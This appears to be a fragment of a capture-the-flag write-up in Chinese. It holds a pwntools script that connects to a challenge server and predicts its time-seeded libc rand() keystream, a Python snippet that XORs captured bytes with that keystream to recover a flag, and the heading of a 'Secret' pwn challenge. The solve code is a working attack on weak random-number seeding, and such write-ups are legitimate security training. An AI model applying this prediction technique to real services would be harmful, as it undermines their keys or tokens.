from pwn import *
from ctypes import *
context(os='linux', arch='amd64', log_level='debug')

p = remote('challenge.yuanloo.com',21232)
libc = cdll.LoadLibrary("libc.so.6")

seed = libc.time(0)
libc.srand(seed)
enc = p.recv()
box = []
for i in range(100):
    box.append(libc.rand()%255)
print(enc.decode())
print(box)
```

```python
enc = [0xfd,0xf5,0xf5,0x4f,0xd9,0xb4,0x1f,0x5d,0x34,0x9b,0x1d,0xf8,0x79,0xa9,0xb1,0xf9,0xac,0x97,0x16,0xe1,0xfc,0xf8,0xef,0x8f,0x6c,0x7d,0x5c,0xb1,0x47,0x81,0x81,0x35,0xb6,0xa3,0x93,0x8d,0x55,0x3c,0x7f,0xdd,0xc0,0x82,0x85]
box = [177, 172, 165, 8, 138, 207, 108, 100, 7, 171, 110, 139, 10, 217, 156, 192, 156, 229, 101, 204, 200, 138, 218, 253, 65, 68, 50, 132, 41, 172, 240, 90, 217, 151, 225, 227, 103, 78, 72, 237, 249, 182, 248, 132, 16, 150, 196, 173, 124, 43, 249, 197, 53, 213, 195, 118, 26, 245, 122, 67, 35, 234, 29, 124, 130, 254, 96, 106, 205, 169, 215, 199, 223, 209, 203, 240, 231, 145, 158, 227, 188, 152, 169, 113, 237, 110, 231, 8, 227, 225, 202, 7, 204, 103, 131, 80, 103, 100, 58, 53]
res = ""
for i in range(len(enc)):
    res+=chr(enc[i]^box[i])
print(res)
```


# <font style="color:#1DC0C9;">Pwn</font>
## <font style="color:#117CEE;">S</font><font style="color:#000000;">ecret</font>




白送，输对指定密码就行。


